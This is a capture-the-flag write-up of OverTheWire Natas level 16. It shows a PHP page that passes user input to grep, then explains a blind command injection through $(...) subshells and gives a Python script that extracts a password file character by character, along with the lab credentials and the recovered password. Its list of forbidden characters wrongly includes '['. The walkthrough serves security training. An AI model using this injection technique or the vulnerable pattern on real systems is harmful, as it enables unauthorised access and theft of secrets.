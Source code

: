 # Writeup level 16
This challenge is similiar to the **Command Injection** ones that we have solved already. This time though we got more restrictions.  

**Source Code**
```php
<?
$key = "";

if(array_key_exists("needle", $_REQUEST)) {
    $key = $_REQUEST["needle"];
}

if($key != "") {
    if(preg_match('/[;|&`\'"]/',$key)) {
        print "Input contains an illegal character!";
    } else {
        passthru("grep -i \"$key\" dictionary.txt");
    }
}
?>
```
Okay so these are the characters that we aren't allowed to use:

- [
- ;
- |
- &
- ` 
- '
- "

Since **$** and **()** aren't forbidden, we can run commands in a subshell by doing **$(command)**. My first idea was to append the content of **/etc/natas_webpass/natas17** to a URL and do a GET-Request to my server. However this doesn't worked and to be honest I don't know why. I would guess that they have either blocked requests that someone can make or they don't have curl installed.

My next idea was to do the same attack that we did in level 15. We are going to try to get the password character by character by using grep and regular expressions. So how do we know that we have the right character? When we **grep** for a word, in my instance it's going to be August, we get a result 'cause August is a word in the **dictionary.txt** and when we grep for a word that doesn't exist we obviously won't get a result.  
So when we guessed the correct **character** our regular expression will **match** and give us the **password**. The password is going to get concatenated with August leading to **no results**. When the regular expression doesn't match then nothing will get concatenated leading to results.

**Exploit**  
We actually just need one rule for our regular expression and it's the "**^**" start of string or start of line rule.  
Our grep command inside the subshell should look like that then:  
**grep -E ^password /etc/natas_webpass/natas17**  
**password** is going to be a variable that will be filled with the correct characters of the actual password. Basically it will start with one character and is going to iterate through all characters until it finds the correct one. After that it will restart and append a second character until it matches and so on.  

**Exploit Code**  
```python
import requests
import string

symbols = string.printable[:62]
password = ""
char = 0

while char != 62:
	temp_pw = password
	password += symbols[char]
	
	payload = f"$(grep -E ^{password} /etc/natas_webpass/natas17)August"
	url = f"http://natas16.natas.labs.overthewire.org/?needle={payload}"
	r = requests.get(url, auth=('natas16', 'WaIHEacj63wnNIBROHeqi3p9t0m5nhmh'))
	
	if "August" not in r.text:
		char = 0
	else:
		password = temp_pw
		char += 1

	print(f"Password is: {password}")

# 8Ps3H0GWbn5rd9S7GmAdgQNdkhPkq9cw
```

The passwords is:  
8Ps3H0GWbn5rd9S7GmAdgQNdkhPkq9cw
